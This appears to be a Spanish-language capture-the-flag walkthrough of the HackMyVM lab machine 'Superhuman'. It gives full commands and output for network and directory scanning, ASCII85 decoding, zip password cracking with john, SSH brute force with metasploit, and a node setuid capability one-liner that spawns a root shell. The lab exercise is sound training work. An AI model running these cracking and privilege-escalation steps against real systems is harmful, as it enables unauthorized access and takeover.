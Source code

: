 ## MAQUINA SUPERHUMAN 

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20233159.png)

Hacemos un escaneo de red con arp-scan

```console
arp-scan -I eth0 --localnet
Interface: eth0, type: EN10MB, MAC: 08:00:27:57:91:54, IPv4: 192.168.0.162
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.0.1     f8:08:4f:71:a2:de       Sagemcom Broadband SAS
192.168.0.33    08:00:27:1d:22:f1       PCS Systemtechnik GmbH
192.168.0.234   4c:82:a9:09:41:63       CLOUD NETWORK TECHNOLOGY SINGAPORE PTE. LTD.
192.168.0.232   18:c0:4d:26:7c:42       GIGA-BYTE TECHNOLOGY CO.,LTD.
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212435.png)

Listo ya tenemos la ip victima, ahora lanzamos un ping a ella para verificar que tengamos conectividad

```console
ping -c 3 192.168.0.33
PING 192.168.0.33 (192.168.0.33) 56(84) bytes of data.
64 bytes from 192.168.0.33: icmp_seq=1 ttl=64 time=3.54 ms
64 bytes from 192.168.0.33: icmp_seq=2 ttl=64 time=1.19 ms
64 bytes from 192.168.0.33: icmp_seq=3 ttl=64 time=0.815 ms
```

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212529.png)

Lanzamos un escaneo con nmap a la maquina victima para ver que puertos y servicios estan abiertos:

```console
nmap -A -T5 192.168.0.33 -oN escaneo2.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 21:25 -03
Nmap scan report for superhuman.fibertel.com.ar (192.168.0.33)
Host is up (0.0011s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9e:41:5a:43:d8:b3:31:18:0f:2e:32:36:cf:68:c4:b7 (RSA)
|   256 6f:24:81:b4:3d:e5:b9:c8:47:bf:b2:8b:bf:41:2d:51 (ECDSA)
|_  256 49:5f:c0:7a:42:20:76:76:d5:29:1a:65:bf:87:d2:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:1D:22:F1 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212619.png)

La pagina nos arroja un entorno todo en blanco, el cual no nos sirve de nada, asi que vamos a realizar un escaneo de directorios ocultos con gobuster.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20224922.png)

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212930.png)

```console
gobuster dir --url http://192.168.0.33/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt.

Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 277]
/notes-tips.txt       (Status: 200) [Size: 358]
```
CONSEJO: "Prueben ese directorio y mandenle full a los hilos porque tarda"

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20223932.png)

El gobuster nos arroja un directorio llamado /notes-tips.txt, ingresamos a ella y tenemos esta cadena de texto rara.

```console
F(&m'D.Oi#De4!--ZgJT@;^00D.P7@8LJ?tF)N1B@:UuC/g+jUD'3nBEb-A+De'u)F!,")@:UuC/g(Km+CoM$DJL@Q+Dbb6ATDi7De:+g@<HBpDImi@/hSb!FDl(?A9)g1CERG3Cb?i%-Z!TAGB.D>AKYYtEZed5E,T<)+CT.u+EM4--Z!TAA7]grEb-A1AM,)s-Z!TADIIBn+DGp?F(&m'D.R'_DId*=59NN?A8c?5F<G@:Dg*f@$:u@WF`VXIDJsV>AoD^&ATT&:D]j+0G%De1F<G"0A0>i6F<G!7B5_^!+D#e>ASuR'Df-\,ARf.kF(HIc+CoD.-ZgJE@<Q3)D09?%+EMXCEa`Tl/c
```

Para decodificar esto utilize la siguiente pagina ya que no podia decifrarla.

>https://www.dcode.fr/ascii-85-encoding

Una vez decodifcada dice lo siguiente:

>salome doesn't want me, I'm so sad... i'm sure god is dead...

>I drank 6 liters of Paulaner.... too drunk lol. I'll write her a poem and she'll

>desire me. I'll name it salome_and_?? I don't know.

>I must not forget to save it and put a good extension because I don't have much storage

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20225309.png)

Al parecer el que escribio esta nota, guardo un poema que se llama salome_and_??.

Bien si nos ponemos a pensar dice que lo guardo en una extension porque no tenia espacio xD, eso nos da una pista de que puedo ser una extension tar,zip,gz.. otro caso son los signos de pregunta de como se llama el poema "??", piensen, yo supongo que como habla de él debe ser "me".

Vamos a ver si existe, coloquemos las posibilidades en el navegador.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20225700.png)

Se nos descargo un archivo, con john the ripper vamos a tratar de creakear la pass del archivo.

```console
zip2john salome_and_me.zip > hash-zip
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20230110.png)

Luego: 

```console

john --wordlist=/usr/share/wordlists/rockyou.txt hash-zip 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
******           (salome_and_me.zip/salome_and_me.txt)     
1g 0:00:00:00 DONE (2024-04-13 23:00) 16.66g/s 170666p/s 170666c/s 170666C/s 123456..1asshole
Use the "--show" option to display all of the cracked passwords reliably
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20230115.png)

Una vez descargado leemos el poema y aca tenemos al dueño del poema el Sr. fred.

```console
----------------------------------------------------

             GREAT POEM FOR SALOME

----------------------------------------------------


My name is fred,
And tonight I'm sad, lonely and scared,
Because my love Salome prefers schopenhauer, asshole,
I hate him he's stupid, ugly and a peephole,
My darling I offered you a great switch,
And now you reject my love, bitch
I don't give a fuck, I'll go with another lady,
And she'll call me BABY!

```

Ya tenemos una credencial, si pensamos y leemos el poema, notamos que tiene palabras medias raras, lo que hize fue colocar todas las palabras una debajo de la otra para luego utilizarla de contraseñas para logearnos en el SSH.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20230436.png)

Con metasploit vamos a ingresar las opciones para ver si conseguimos dar con la contraseña.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20231410.png)

Y BIEN! obtivimos la password, aclaro que tambien se puede hacer son "hydra" a la fuerza bruta.

Ingresamos con las credenciales y somos el usuario fred.

Chusmeamos a que tenemos por delante

```console
fred@superhuman:~$ uname -a 
Linux superhuman 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
fred@superhuman:~$ lsb_release -a 
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 10 (buster)
Release:        10
Codename:       buster
```

Aca hay un pequeño detalle, al listar el contenido del directorio, esta nos bota o rechaza o nos saca como quieran decirlo, asi que encontra esta forma de buscar y leer las flags ya que si le coloque el "ID" y no me saco XD.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20232002.png)

```console

find / -type f -name '*.txt' 2>/dev/null
/home/fred/cmd.txt
/home/fred/user.txt
/var/www/html/notes-tips.txt
```

Excelente, ahora nos queda por escalar privilegios, para eso utilizamos el siguiente:

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20232740.png)

Hay una capabilities que podemos explotar, en este caso vamos a gtfobins >> node >> y vemos que tenemos las capabilities. Para loguearnos como root usamos el siguiente comando.

>fred@superhuman:/$ which node
/usr/bin/node
fred@superhuman:/$ /usr/bin/node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20232957.png)


##SOMOS ROOT.



